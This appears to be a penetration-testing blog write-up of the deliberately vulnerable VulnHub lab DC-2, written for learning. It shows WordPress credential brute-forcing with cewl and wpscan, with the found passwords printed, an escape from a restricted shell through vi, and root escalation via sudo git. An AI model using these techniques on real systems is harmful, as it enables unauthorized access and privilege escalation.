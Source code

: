 ```yaml
---
layout: single
title: DC-2 Writeup
tags: vulnhub
date: 2020-05-23
classes: wide
excerpt: DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. 
---
```

DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. Please do not forget to set up your hostname for dc-2, you can do this by editing `/etc/hosts` and inserting the IP of your machine then dc-2. `IP	dc-2`
## Recon
### Nmap Scan
```Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```
### Website 80-TCP
Upon visiting the site, we are greeted by a wordpress-type of a site and it seems that one of the tab in the navigation bar is the FLAG.

![f6f89e5a77d41206f1b806ade2ee3367.png](/blog/assets/images/DC-2/1eaeca1fa6cf4cdfbb50a9e0bdc98c36.png)
Hmmm, it looks like its hinting us to use a tool called `cewl`.
Technically, Cewl is a tool that is used to generate wordlists by going through the site you have given it to visit which means it makes a list of possible usernames,passwords and etc.

using the command `cewl http://dc-2 -w wordlist.txt` it generated a file that contains words, because of the hint in the FLAG 1 I think we need to bruteforce for credentials.

We can bruteforce wordpress credentials by using `wpscan` a tool use for enumerating wordpress and its components it also supports credential bruteforcing.

To bruteforce for the credentials use `wpscan --url URL -P wordlist.txt` and wait for a while.
```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
 ```
 
 ### User
 To get our initial foothold let's login to the wordpress portal first by visiting `http://dc-2/wp-admin/`.
 
 Looking around the site it seems that we can't find a way to gain foothold here but alas we have found another FLAG in the pages tab.
 
![c30c5f192fe37a3ee2c726bab8d9c320.png](/blog/assets/images/DC-2/1c69c8635bbb4f4e8e18e544ab35a558.png)
Hmmmm, another hint huh? it looks like its telling us that there's another way to get in but our nmap scan only has PORT 80 on it. This time let's do a full tcp nmap scan.

![full-tcp.png](/blog/assets/images/DC-2/73ef46075b234daab26526252eabd888.png)
Ahoy! it looks like we have another port which is `7744` let's try to figure out what service is running under that port by doing `nc dc-2 7744`. BOOM! we got ourselves a OPENSSH Port maybe this is the entry point that the FLAG 2 was trying to say.

Logging in with tom and his credentials we are in but unfortunately we are in a restricted environment :( fortunately there's still a way for us to get out of this restricted environment, by using `vi` and writing `:set shell=/bin/bash` and `:shell` we can get out of the place.

#### BROOKEN COOOMANDS EVERYWHERE
```
tom@DC-2:~$ id
bash: id: command not found
```
We can fix this, I know we can by setting 
```
export PATH=/usr/local/sbin:/sbin:/usr/sbin:/usr/bin:/bin:/usr/local/games:/usr/games
```
#### Root


![flag3.png](/blog/assets/images/DC-2/6a464bdb055845c28c84742bf8cdc05b.png)

Reading flag3 and again it is hinting us what to do next like the previous flags and right now it seems it is hinting us to change our user to Jerry and we shall do it!

![cbd0b9326f27dfdf87cb793b85a4c17d.png](/blog/assets/images/DC-2/0cbe77f8fcb44de6825b011642c13420.png)
Checking our permissions using `sudo -l` we now find that we can run `git` as root and by using our friendly neighborhood [spiderman](https://gtfobins.github.io/gtfobins/git/). 


![2af2c776c78cbb443f1a6d900d615f33.png](/blog/assets/images/DC-2/387d7d09ac04495e9f9c5b7da9618aa2.png)




We can root the machine  through using 
```
sudo git branch --help config
!/bin/sh
```
```
# whoami
root
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

# 
```









